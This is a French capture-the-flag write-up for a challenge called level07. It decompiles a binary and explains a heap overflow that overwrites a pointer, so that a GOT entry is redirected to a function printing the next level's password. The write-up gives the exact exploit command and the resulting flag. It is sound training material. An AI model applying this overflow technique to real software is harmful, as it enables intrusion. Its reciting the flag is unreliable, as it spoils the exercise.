 # Rapport CTF - [Level07]

### Observation :
En arrivant sur le level7 on trouve un exécutable nommé level7.\
Quand nous essayons de le lancer, on se rend compte qu'il prend 2 arguments et écris `~~`, puis return. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484F4) --------------------------------------------------------
int m()
{
  time_t v0; // eax

  v0 = time(0);
  return printf("%s - %d\n", c, v0);
}

//----- (08048521) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // eax
  void *v5; // [esp+18h] [ebp-8h]
  void *v6; // [esp+1Ch] [ebp-4h]

  v6 = malloc(8u);
  *(_DWORD *)v6 = 1;
  *((_DWORD *)v6 + 1) = malloc(8u);
  v5 = malloc(8u);
  *(_DWORD *)v5 = 2;
  *((_DWORD *)v5 + 1) = malloc(8u);
  strcpy(*((char **)v6 + 1), argv[1]);
  strcpy(*((char **)v5 + 1), argv[2]);
  v3 = fopen("/home/user/level8/.pass", "r");
  fgets(c, 68, v3);
  puts("~~");
  return 0;
}
```
On peut voir le fichier v3 qui open le `.pass` du level suivant, et une fonction `m()` qui nous permet de printf v3. \
On peut aussi voir des malloc comme dans le level précédant, nous allons donc sûrement devoir faire de même.

### Solution :
Il nous faut donc overflow le premier malloc `v6` sur `v5` avec 20 octets random 16 pour le malloc + 4 pour v5, puis ajouter l'adresse jump de puts (pour jump sur `m()`), ensuite dans la 2eme chaîne de caractères nous n'avons plus qu'à mettre l'adresse de fonction `m()`.

On fait la commande suivante pour obtenir le flag :
```sh
./level7 $(python -c "print ('a'*(16 + 4) + '\x08\x04\x99\x28'[::-1])") $(python -c "print '\x08\x04\x84\xf4'[::-1]")
```

### Resultat :
```sh
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```
